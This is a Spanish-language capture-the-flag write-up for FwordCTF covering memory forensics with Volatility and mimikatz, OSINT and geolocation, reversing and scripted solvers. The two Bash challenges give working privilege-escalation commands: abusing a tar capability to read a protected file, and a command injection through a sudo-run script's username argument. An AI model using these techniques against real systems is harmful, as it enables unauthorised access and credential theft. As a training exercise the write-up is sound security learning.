# Write-up FwordCTF

* [Forensics - Memory 1](#forensics---memory-1)
* [Forensics - Memory 2](#forensics---memory-2)
* [Forensics - Memory 3](#forensics---memory-3)
* [Forensics - Memory 4](#forensics---memory-4)
* [Forensics - Memory 5](#forensics---memory-5)
* [Forensics - Infection](#forensics---infection)
* [Forensics - Null](#forensics---null)
* [Bash - CapiCapi](#bash---capicapi)
* [Bash - Bash is fun](#bash---bash-is-fun)
* [Reversing - Tornado](#reversing---tornado)
* [OSINT - Identity Fraud](#osint---identity-fraud)
* [OSINT - Tracking a Criminal](#osint---tracking-a-criminal)
* [Misc - Secret Array](#misc---secret-array)


## Forensics - Memory 1

Archivos: <a href="https://drive.google.com/file/d/1Wcnb2fWdNj_IkWyiAUJD0gyx7bZsHHci/view?usp=sharing">foren.7z</a>


> Give the hostname, username and password in format FwordCTF{hostname_username_password}.


Se trata de un dump de memoria, por lo que se utiliza **Volatility**.
Con imageinfo obtengo que se trata de un dump con el perfil Win7SP1x64. El nombre del equipo se encuentra en el registro, por lo general en la clave 'HKLM\SYSTEM\ControlSet001\Control\ComputerName\ComputerName'.

Para obtenerlo se listan las hives del registro con el comando **hivelist** para ver la dirección virtual de la subclave **SYSTEM**. 
```volatility -f foren.raw --profile=Win7SP1x64 hivelist```
<p align="center">
  
</p>

Luego se imprime el valor de la clave Computer name a partir de esta dirección.
```volatility -f foren.raw --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K 'ControlSet001\Control\ComputerName\ActiveComputerName'```
<p align="center">
  
</p>

El nombre del equipo es **FORENWARMUP**.

Para obtener el usuario y la contraseña se pueden usar **hashdump** y el plugin **mimikatz** que te proporciona la contraseña en claro, si está disponible.
```volatility -f foren.raw --profile=Win7SP1x64 hashdump```
<p align="center">
  
</p>

Para crackear el hash NTLM (el segundo) se puede usar CrackStation: https://crackstation.net/.

Mimikatz proporciona en claro la contraseña:
```volatility --plugins=/home/utilidades/plugins-vol -f foren.raw --profile=Win7SP1x64 mimikatz```
<p align="center">
  
</p>

**FwordCTF{FORENWARMUP_SBA_AK_password123}**


## Forensics - Memory 2

> I had a secret conversation with my friend on internet. On which channel were we chatting?

En la salida chromehistory se ve que ha estado chateando en un IRC. Hago un dump de la memoria de todos los procesos de chrome visibles en pstree y luego un strings para obtener la flag:

**FwordCTF{top_secret_channel}**


## Forensics - Memory 3

> He sent me a secret file , can you recover it?
> PS: NO BRUTEFORCE NEEDED FOR THE PASSWORD

En el mismo dump de memoria de antes, hago un grep ahora con el nombre del canal y el prefijo de mensaje privado para observar la conversación ``PRIVMSG #FwordCTF{top_secret_channel}``
<p align="center">
  
</p>

Se puede ver un enlace del que se descarga el archivo “important.zip”, y su contraseña **fw0rdsecretp4ss**.
Dentro del ZIP está flag en una imagen:
<p align="center">
  
</p>

**FwordCTF{dont_share_secrets_on_public_channels}**


## Forensics - Memory 4

> Since i'm a geek, i hide my secrets in weird places.

La flag está escondida en el registro, en NTUSER.dat.
```
volatility -f foren.raw --profile=Win7SP1x64 printkey -o 0xfffff8a0033fe410
volatility -f foren.raw --profile=Win7SP1x64 printkey -o 0xfffff8a0033fe410 -K 'FLAG'
```
<p align="center">
  
</p>

**FwordCTF{hiding_secrets_in_regs}**


## Forensics - Memory 5

Hago un dump de la memoria del proceso de Paint y le doy la extensión **.data**, para luego intentar abrirlo en GIMP.

Jugando con los valores de desplazamiento y anchura del diálogo se puede ver la flag. Con el desplazamiento se pueden ver las diferentes imágenes, y con la anchura se modifica una especie de rotación para poder verla bien.

<p align="center">
  
</p>

**FwordCTF{Paint_Skills_FTW!}**


## Forensics - Infection

[Write-up Jandrov](https://github.com/Jandrov/ctf-writeups/tree/master/2020-FwordCTF#forensics---infection)


## Forensics - Null

[Write-up Jandrov](https://github.com/Jandrov/ctf-writeups/tree/master/2020-FwordCTF#forensics---null)


## OSINT - Identity Fraud

> Someone stole our logo and created a team named "Eword". In order to find him, I created a fake twitter account (@1337bloggs) to join Eword team. Fortunately, they replied to the fake account and gave me a task to solve. So, if I solve it, they will accept me as a team member. ... Can you help me in solving the task?

Buscando las respuestas de la cuenta de Twitter @1337bloggs (https://twitter.com/1337bloggs/with_replies) me encuentro con una conversación con @EwordTeam. En ella le ofrecen unirse al equipo si consigue resolver “algo” que hay en su página de CTFtime, cuyo enlace está en la descripción de la cuenta. 

<p align="center">
  
</p>

Al acceder a la página (https://ctftime.org/team/131587) no se ve nada aparte de la dirección de Twitter, y es porque eliminaron la pista una vez les notificó el usuario.

<p align="center">
  
</p>

Sin embargo, hay una captura en WaybackMachine en la que se aprecia la pista, una dirección de Pastebin: http://web.archive.org/web/20200826195056/https://ctftime.org/team/131587

<p align="center">
  
</p>

El contenido del Pastebin es:
```
Hi Fred,

You said that you are good in OSINT. So, you need to prove your skills to join Eword.

Your task:
Find the leader of Eword, then find the flag in one of his social media accounts.

Hint:
https://pastebin.com/PZvaSjA0
```

El hint que proporcionan es un JPG con una captura de una historia de Instagram, en la que se puede ver un hotel (con su nombre).
Con una búsqueda rápida en Google veo que se trata del hotel Hilton Podgorica Crna Gora, y con la búsqueda "Hilton Podgorica Crna Gora" "advisor" "eword" encuentro una opinión de un tal "Wokaihwokomas Kustermann" en la que se menciona el nombre del equipo.

<p align="center">
  
</p>

El primer pastebin indicaba que la flag estaba en una de las redes sociales del líder, y en el perfil del usuario se ve la pista “check_my_instagram”, por lo que lo busco en Instagram. En las historias destacadas se puede ver la misma imagen del hotel, y luego una en la que sugiere que las fotos de perfil de Instagram sean cuadradas. Esto parece una pista por lo que trato de obtener la imagen de perfil con el depurador de red del navegador. Sin embargo, la foto que se obtiene es muy pequeña, y en ella se puede apreciar que hay algo escrito en la parte inferior, pero que es ilegible.


<p align="center">
  
</p>

Para ver la imagen de perfil a tamaño real utilizo la página Instadp (https://www.instadp.com/fullsize/wokaihwokomaskustermann)
Ahora sí se puede apreciar la flag.

<p align="center">
  
</p>

**Eword{c0ngraAatulationZzZz_aNd_w3lCom3_to_Eword_Team_!}**


## Bash - CapiCapi

> You have to do some privilege escalation in order to read the  flag! Use the following SSH credentials to connect to the server, each  participant will have an isolated environment so you only have to pwn  me! 
>
> SSH Credentials 
> ssh -p 2222 ctf@capicapi.fword.wtf 
> Password: FwordxKahla

Listando las capabilities (```getcap -r / 2>/dev/null```) me encuentro con que el programa **/usr/bin/tar** tiene la capacidad de leer cualquier archivo del sistema (**cap_dac_read_search+ep**). Para acceder a la flag bastaría con comprimir la flag para luego descomprimirla en un archivo que sí tenga permiso de lectura para el usuario actual:

```
getcap -r / 2>/dev/null
/usr/bin/tar cvf /tmp/flag.txt.tar flag.txt
cd /tmp
/usr/bin/tar xvf flag.txt.tar
cat flag.txt
```

**FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}**


## Bash - Bash is fun


> Bash is fun, prove me wrong and do some privesc.  
>
> SSH Credentials 
> ssh -p 2222 ctf@funbash.fword.wtf 
> Password: FwOrDAndKahl4FTW 

La flag solo puede ser leída por root o por un usuario del grupo **user-privileged**:
<p align="center">
  
</p>

La salida de ```sudo -l``` indica que puedo ejecutar el script **welcome.sh** como user-privileged, el cual puede ver el contenido de flag.txt. El script es el siguiente:
```bash
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
        $name
fi

if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

Se puede llevar a cabo una inyección de código mediante el parámetro **username**, el cual es utilizado en el sed para sustituir la palabra ‘user’ contenida en welcome.txt y mostrarlo por pantalla. El if relativo a la variable ‘isNew’ no se ejecuta nunca, pero se puede conseguir la ejecución de la función otorgando el valor **‘id’** al parámetro **'name'**, puesto que con el parámetro **permission** se puede ejecutar la sentencia ‘id’, que en vez de ser el comando /usr/bin/id sería la nueva función exportada.

La flag se leería entonces así: ```sudo -u user-privileged /home/user1/welcome.sh -u "pwned/g' flag.txt;  echo '" -n id -p```. Nótese el echo del final con la comilla para cerrar correctamente el resto del comando y que no genere un error de sintaxis.

<p align="center">
  
</p>

**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**


## Reversing - Tornado

Archivos: <a href="challs/reversing/Tornado.7z">Tornado.7z</a>

El archivo comprimido contiene un script en Python que desordena y cifra una flag con AES, cuya clave es conocida. Modifico el script para realizar funciones de descifrado, invirtiendo el orden. Sin embargo, la flag está desordenada, ya que pasó por la función **shuffle** antes de ser cifrada. Esta función es vulnerable porque asigna como semilla un caracter de la propia flag. Como la flag tiene el formato **FwordCTF{**...**}**, se puede iterar por cada caracter diferente de la flag y comprobar si las posiciones finales de la flag incompleta son iguales. 

Un **detalle importante** que me hizo perder bastante tiempo, es que debe correrse con **Python3**. Entre las versiones de Python diferentes no se genera la misma secuencia de números para la misma semilla.

```python
#!/usr/bin/python3
#-*- encoding=UTF8 -*-
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from Crypto.Util.number import long_to_bytes
from binascii import hexlify, unhexlify
import random

key = "very_awes0m3_k3y"
flag = "FwordCTF{W!Pr35gp_ZKrJt[NcV_Kd-/NmJ-8ep(*A48t9jBLNrdFDqSBGTAt}" # Cadena aleatoria de prueba
assert len(flag) == 62
assert len(key) == 16

def to_blocks(text):
	return [text[i*2:(i+1)*2].encode() for i in range(len(text)//2)]

def random_bytes(seed):
	random.seed(seed)
	return long_to_bytes(random.getrandbits(8*16))

def encrypt_block(block,key):
	cipher = AES.new(key.encode(), AES.MODE_ECB)
	plain_pad = pad(block, 16)
	return hexlify(cipher.encrypt(plain_pad)).decode()

def encrypt(txt, key):
	res = ""
	blocks = to_blocks(txt)
	for block in blocks:
		res += encrypt_block(block, key)
	return res

def translate(txt,l,r):
	return txt[:l]+txt[r:]+txt[l:r]

def shuffle(txt):
	seed=random.choice(txt)
	random.seed(seed)
	nums = []
	for _ in range(45):
		l = random.randint(0, 15)
		r = random.randint(l+1, 33)
		txt = translate(txt, l, r)
		nums = [[l,r]] + nums
	return txt, nums

def slice(txt, n):
	return [txt[index : index + n] for index in range(0, len(txt), n)]

def decrypt_block(block,key):
	cipher = AES.new(key.encode(), AES.MODE_ECB)
	return unpad(cipher.decrypt(unhexlify(block.encode())), 16).decode()

def shuffle2(txt, seed):
	random.seed(seed)
	nums = []
	for i in range(45):
		l = random.randint(0, 15)
		r = random.randint(l+1, 33)
		txt = translate(txt, l, r)
		nums = [[l,r]] + nums
	return txt, nums

def reverse_translate(txt, l, r):
	n = len(txt) - r + l
	res = txt[:l] + txt[n:] + txt[l:n]
	assert len(res) == len(txt)
	return res

def crack(encrypted):
	# Descifra los bloques
	blocks = slice(encrypted, 32)
	decrypted = "".join(decrypt_block(block, key) for block in blocks)
	print("[*] Descifrado: " + decrypted)
	# Ahora la flag está shuffleada, por lo que se obtienen los indices
	# de los caracteres unicos en la parte que se conoce de la flag
	known = "FwordCTF{}"
	uniqueKnown = ""
	for c in known:
		if decrypted.count(c) == 1:
			uniqueKnown += c
	print("[*] Caracteres únicos de la parte conocida de la flag: " + uniqueKnown)
	indexes = [decrypted.index(c) for c in uniqueKnown]
	print("[*] Indices aleatorizados de los caracteres: " + str(indexes))
	# Se itera el charset de la flag descifrada, ya que la semilla es un caracter de esta,
	# y se busca con cuales de ellas se obtienen los mismos indices
	charset = []
	for char in decrypted:
		if char not in charset:
			charset.append(char)
	dummy = "FwordCTF{BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB}"
	assert len(dummy) == 62

	seeds = []
	for char in charset:
		res, _ = shuffle2(dummy, char)
		i = [res.index(c) for c in uniqueKnown]
		if indexes == i:
			seeds.append(char)
	print("[*] Posibles semillas: " + str(seeds))
	# Se obtiene la secuencia de numeros aleatorios generados en la funcion shuffle
	for seed in seeds:
		_, nums = shuffle2(dummy, seed)
		# Aplica las operaciones inversas
		solution = decrypted
		for lr in nums:
			solution = reverse_translate(solution, lr[0], lr[1])
		print("[*] Posible solución con semilla {}: {}".format(seed, solution))


def shuffleEncrypt(txt, key):
	shuffled, nums = shuffle(txt)
	print("[*] Desordenada: " + shuffled)
	print("[*] Nums: " + str(nums))
	return encrypt(shuffled, key)


#encrypted = shuffleEncrypt(flag, key)
encrypted = "3ce29d5f8d646d853b5f6677a564aec6bd1c9f0cbfac0af73fb5cfb446e08cfec5a261ec050f6f30d9f1dfd85a9df875168851e1a111a9d9bfdbab238ce4a4eb3b4f8e0db42e0a5af305105834605f90621940e3f801e0e4e0ca401ff451f1983701831243df999cfaf40b4ac50599de5c87cd68857980a037682b4dbfa1d26c949e743f8d77549c5991c8e1f21d891a1ac87166d3074e4859a26954d725ed4f2332a8b326f4634810a24f1908945052bfd0181ff801b1d3a0bc535df622a299a9666de40dfba06a684a4db213f28f3471ba7059bcbdc042fd45c58ae4970f53fb808143eaa9ec6cf35339c58fa12efa18728eb426a2fcb0234d8539c0628c49b416c0963a33e6a0b91e7733b42f29900921626bba03e76b1911d20728254b84f38a2ce12ec5d98a2fa3201522aa17d6972fe7c04f1f64c9fd4623583cc5a91cc471a13d6ab9b0903704727d1eb987fd5d59b5757babb92758e06d2f12fd7e32d66fe9e3b9d11cd93b11beb70c66b57af71787457c78ff152ff4bd63a83ef894c1f01ae476253cbef154701f07cc7e0e16f7eede0c8fa2d5a5dd5624caa5408ca74b4b8c8f847ba570023b481c6ec642dac634c112ae9fec3cbd59e1d2f84f56282cb74a3ac6152c32c671190e2f4c14704ed9bbe74eaafc3ce27849533141e9642c91a7bf846848d7fbfcd839c2ca3b"
print("[*] Cifrado: " + encrypted)

crack(encrypted)
```

<p align="center">
  
</p>

**FwordCTF{peekaboo_i_am_the_flag_!\_i_am_the_danger_52592bbfcd8}**


## OSINT - Tracking a Criminal

Archivos: <a href="challs/osint/Villages.zip">Villages.zip</a>

> We have found a flash memory in the crime scene, and it contains 3 images of different villages. So, the criminal may be hiding in one of these villages! Can you locate them?
> Flag Format: FwordCTF{}
> * Separate between the villages names using underscores ( _ ).
> * All the villages names are in lowercase letters.
> * There is no symbols in the villages names.

La primera imagen sale tras unas cuantas fotos similares en la búsqueda por imágenes de Yandex. Se trata de un hotel famoso en Llanfairpwllgwyngyll, Gales.

<p align="center">
  
</p>

#################

A primera vista la segunda imagen me resultó familiar, y es porque estuve en estuve en este lugar en una carrera de orientación hace años. Se trata de Monsanto, un pueblo en Portugal muy bonito y con unas cuantas cuestas.

Dejando a un lado la experiencia y analizando la imagen, creo que las principales pistas son:
	* La gran roca tras la casa en medio de la imagen.
	* El gallo veleta encima de la Iglesia a la derecha de la imagen
	* La cruz de piedra debajo de la iglesia

Una búsqueda en Google de ```"village" “boulders”``` y Monsanto aparece entre los primeros resultados. Desde Google Street View se puede ubicar la zona de la foto teniendo en cuenta la posición de la Iglesia y de la cruz.

Google Maps: https://www.google.com/maps/@40.0389769,-7.1163152,3a,75y,353.95h,97.3t/data=!3m6!1e1!3m4!1sxPxTHX5MEDkQgzwdIMKnKw!2e0!7i13312!8i6656

#################

Lo que se ve en la tercera imagen parece una especie de parque o cementerio en una ciudad montañosa, con varios edificios pintados de azul.

En la parte derecha de la foto se puede apreciar un logotipo naranja y amarillo con unas barras negras en medio, probablemente perteneciente a algún establecimiento. Tras varias búsquedas en internet y una búsqueda inversa de un dibujo en Paint que no subo porque es muy cutre, doy con que se trata del banco marroquí **Attijariwafa**, el cual tiene bastantes sucursales por el mundo.

<p align="center">
  
</p>

Llama la atención que hay bastantes edificios pintados de azul. Realizo la búsqueda ```"morocco" "blue" "paint"``` el principal resultado es la ciudad Chefchaouen, característica por este motivo. Busco en Google Maps su localización y encuentro el banco junto al parque de la foto.

<p align="center">
  
</p>

Google Maps: https://www.google.com/maps/@35.168796,-5.2683641,3a,89.1y,122.25h,91.39t/data=!3m8!1e1!3m6!1sAF1QipPf8SoKkPGNoScgrO36z6FUd9Pzyic6a7E4-yem!2e10!3e11!6shttps:%2F%2Flh5.googleusercontent.com%2Fp%2FAF1QipPf8SoKkPGNoScgrO36z6FUd9Pzyic6a7E4-yem%3Dw203-h100-k-no-pi0-ya229.80328-ro-0-fo100!7i8704!8i4352


**FwordCTF{llanfairpwllgwyngyll_monsanto_chefchaouen}**


## Misc - Secret Array

```nc secretarray.fword.wtf 1337```
<p align="center">
  
</p>

Para hallar los valores, realizo la suma del primer valor con el resto, lo cual supone 1336 operaciones. La restante se utiliza para hallar la suma entre el segundo y el tercer elemento, suficiente para resolver la ecuación. Utilizo **Z3**:
```python
#!/usr/bin/python3
from pwn import *
from z3 import *

target = remote("secretarray.fword.wtf", 1337)
target.recv()

solver = Solver()

LENGTH = 1337
# Genera las variables
variables = [Int(f"v_{i}") for i in range(LENGTH)]

for v in variables:
	solver.add(v > 0)

# Halla la suma del primer valor con el resto (1336 peticiones)
print("[*] Hallando sumas...")
for i in range(1, LENGTH):
	print("[*] " + str(i))
	target.sendline("0 {}".format(i))
	suma = int(target.recvline().strip())
	solver.add(variables[0] + variables[i] == suma)

# Halla la suma del segundo y tercer valor (última petición)
target.sendline("1 2")
suma = int(target.recvline().strip())
solver.add(variables[1] + variables[2] == suma)

# Resuelve
print("[*] Resolviendo...")
solver.check()
model = solver.model()

done = "DONE "
for v in variables:
	done += str(model[v]) + " "

target.sendline(done)
target.interactive()
```

<p align="center">
  
</p>

**FwordCTF{it_s_all_about_the_math}**

